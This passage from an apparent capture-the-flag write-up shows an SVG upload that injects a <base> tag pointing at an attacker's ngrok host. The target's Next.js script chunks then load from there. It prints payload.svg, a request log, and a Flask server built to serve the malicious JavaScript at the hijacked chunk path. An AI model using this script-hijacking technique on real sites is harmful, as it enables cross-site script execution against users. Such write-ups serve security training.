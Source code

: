Armed with above information, **we can inject a `<base>` tag via SVG, and let those JavaScript files imported from our web server!!**

**payload.svg:**
```xml
<?xml version="1.0" standalone="no"?>
<!DOCTYPE svg PUBLIC "-//W3C//DTD SVG 1.1//EN" "http://www.w3.org/Graphics/SVG/1.1/DTD/svg11.dtd">

<svg version="1.1" baseProfile="full" xmlns="http://www.w3.org/2000/svg">
  <polygon id="triangle" points="0,0 0,50 50,0" fill="#009900" stroke="#004400"/>

  <foreignObject>
    <base href="https://2eb1-[...].ngrok-free.app">
  </foreignObject>
</svg>
```

**Update the SVG URL again:**

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/corCTF-2023/images/Pasted%20image%2020230731180918.png)

![](https://raw.githubusercontent.com/siunam321/CTF-Writeups/main/corCTF-2023/images/Pasted%20image%2020230731162330.png)

**Flask web application:**
```shell
127.0.0.1 - - [31/Jul/2023 16:22:49] "GET /_next/static/chunks/pages/index-3228b8a1fcea6589.js HTTP/1.1" 404 -
```

Nice! It's trying to **import `/_next/static/chunks/pages/index-3228b8a1fcea6589.js` JavaScript file** from our web server!!

**Then, we can create a new route in Flask and JavaScript payload:**
```python
#!/usr/bin/env python3
from flask import Flask, send_file
from flask_cors import CORS

app = Flask(__name__)

# Access-Control-Allow-Origin: *
CORS(app)

@app.route('/payload')
def serveSvgPayload():
    svgPayloadFile = 'payload.svg'
    return send_file(svgPayloadFile)

@app.route('/_next/static/chunks/pages/index-3228b8a1fcea6589.js')
def abuseBaseSrc():
    javaScriptFile = 'payload.js'
    return send_file(javaScriptFile)

if __name__ == '__main__':
    app.run(port=80, debug=True)
```
